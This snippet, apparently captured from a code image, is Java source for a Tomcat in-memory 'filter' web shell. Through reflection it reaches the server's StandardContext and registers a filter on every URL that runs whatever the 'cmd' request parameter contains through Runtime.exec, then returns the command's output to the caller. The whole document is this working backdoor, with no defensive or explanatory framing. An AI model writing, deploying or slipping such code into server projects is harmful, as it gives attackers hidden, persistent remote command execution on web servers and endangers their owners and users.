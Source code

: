 ```

            Field stdctx = applicationContext.getClass().getDeclaredField("context");
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

            Field configs = standardContext.getClass().getDeclaredField("filterConfigs");
            configs.setAccessible(true);
            Map filterConfigs = (Map) configs.get(standardContext);

            if (filterConfigs.get(name) == null) {
                //自定义一个filter对象
                Filter filter = new Filter() {
                    @Override
                    public void init(FilterConfig filterConfig) throws ServletException {

                    }

                    @Override
                    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                        if (servletRequest.getParameter("cmd") != null) {
                            Process process = Runtime.getRuntime().exec(servletRequest.getParameter("cmd"));
                            InputStream inputStream = process.getInputStream();
                            InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
                            BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
                            String line;
                            while ((line = bufferedReader.readLine()) != null) {
                                servletResponse.getWriter().println(line);
                            }
                        }
                        filterChain.doFilter(servletRequest, servletResponse);
                    }

                    @Override
                    public void destroy() {

                    }
                };

                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName(name);
                filterDef.setFilterClass(filter.getClass().getName());

                standardContext.addFilterDef(filterDef);

                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName(name);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());

                standardContext.addFilterMapBefore(filterMap);

                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

                filterConfigs.put(name,applicationFilterConfig);
            }
```